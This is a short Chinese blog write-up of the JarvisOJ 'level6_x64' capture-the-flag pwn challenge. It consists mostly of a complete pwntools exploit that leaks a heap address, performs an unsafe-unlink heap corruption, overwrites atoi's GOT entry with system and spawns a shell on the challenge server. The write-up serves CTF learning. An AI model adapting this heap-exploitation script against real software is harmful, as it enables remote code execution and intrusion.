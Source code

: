 ```yaml
---
layout:     post
title:      jarvisoj level6_x64
author:     wooy0ung
tags: 		pwn
category:  	writeup
---
```



>Problem Address:  
>https://www.jarvisoj.com  
>  
>Download:  
>https://dn.jarvisoj.com/challengefiles/level6_x64.rar.70d1ee5db56830c021da3fbd9818a030  
>  
>Address:  
>nc pwn2.jarvisoj.com 9886  
<!-- more -->


### 0x00 exploit

与Guestbook2类似, 其实就是2015年0ctf的一道pwn题, 分析过程看Guestbook2

#### 传送门: [Guestbook2](http://www.wooy0ung.me/writeup/2017/07/31/jarvisoj-guestbook2/)

完整的exploit如下, 改了地址、端口, 直接打过去

```
#!/usr/bin/python
# -*- coding:utf8 -*-

from pwn import *

Io = remote('pwn2.jarvisoj.com', 9886)
#Io = process('./freenote_x64')
bin = ELF('./freenote_x64')
libc = ELF('./libc-2.19.so')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add_post(content):
	Io.sendline('2')
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def edit_post(idx,content):
	Io.sendline('3')
	Io.recvuntil('number')
	Io.sendline(str(idx))
	Io.recvuntil('Length')
	Io.sendline(str(len(content)))
	Io.recvuntil('Enter')
	Io.send(content)
def del_post(idx):
	Io.sendline('4')
	Io.recvuntil('number')
	Io.sendline(str(idx))
def get_post(content):
  	Io.recvuntil('Your choice: ')
  	Io.sendline('1')
  	Io.recvuntil(content)
  	return Io.recvuntil('\n')

#-----------------init-------------------
for i in range(4):
	add_post('a')

del_post(0)
del_post(2)

add_post('12345678')

#--------------leak heap_base-------------
leak_data = get_post('12345678')
heap_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
heap_base = heap_addr - 0x1940
chunk_addr = heap_base + 0x30
success("heap_base: "+hex(heap_base))

del_post(0)
del_post(1)
del_post(3)

#-----------------unlink------------------
size0 = 0x80+0x90+0x90
add_post(p64(0)+p64(size0+1)+p64(chunk_addr-0x18)+p64(chunk_addr-0x10))
add_post("/bin/sh\x00")
add_post("a"*0x80+p64(size0)+p64(0x90)+"a"*0x80+(p64(0)+p64(0x91)+"a"*0x80)*2)
del_post(3)

#------------leak system_addr-------------
atoi_got = bin.got['atoi']

edit_post(0, p64(100)+p64(1)+p64(8)+p64(atoi_got))
leak_data = get_post('0. ')
atoi_addr = u64(leak_data[:-1].ljust(0x8,'\x00'))
system_addr = atoi_addr - libc.symbols['atoi'] + libc.symbols['system']
success("atoi: "+hex(atoi_addr))
success("system: "+hex(system_addr))

#-------------------pwn--------------------
edit_post(0, p64(system_addr))
Io.sendline("$0")
Io.interactive()
```

getshell

![](/assets/img/writeup/pwn/2017-08-03-jarvisoj-level6_x64/0x00.png)